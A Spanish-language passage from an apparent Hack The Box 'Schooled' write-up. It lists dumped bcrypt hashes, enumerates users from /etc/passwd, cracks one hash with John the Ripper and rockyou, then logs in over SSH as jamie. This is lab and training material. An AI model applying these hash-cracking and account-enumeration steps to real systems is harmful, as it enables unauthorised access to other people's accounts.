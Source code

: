```bash
Jane	$2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
Manuel	$2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
Lianne	$2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
Dan	$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
Tim	$2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
z3r0	$2y$10$QjyUi7WuKWD.GLgdPYLY7eyFT0IkW7exn2CAwPTofHmmB35C.C0OK
```

Enumero el archivo `/etc/passwd` en busca de **usuarios** para ver si alguno coincide con los que hemos encontrado en la base de datos:

```bash
~$ grep -E "1[0-9]{3}" /etc/passwd | awk '{print $1}' FS=':'

jamie
steve
```
Hay 2 usuarios en el sistema, `steve` no consta en la base de datos pero `jamie` sí, y tenemos su contraseña en formato **hash**.

Tras ver esto, procedo a **crackear el hash** con la herramienta `johnTheRipper`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXX         (?)
1g 0:00:02:33 DONE (2021-09-18 16:48) 0.006506g/s 90.40p/s 90.40c/s 90.40C/s aldrich..superpet
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Con esta contraseña ya es posible **conectarnos por SSH** a la máquina como el usuario `jamie`:

```
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ssh jamie@10.10.10.234
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
To save disk space in your home directory, compress files you rarely
use with "gzip filename".
		-- Dru <genesis@istar.ca>
```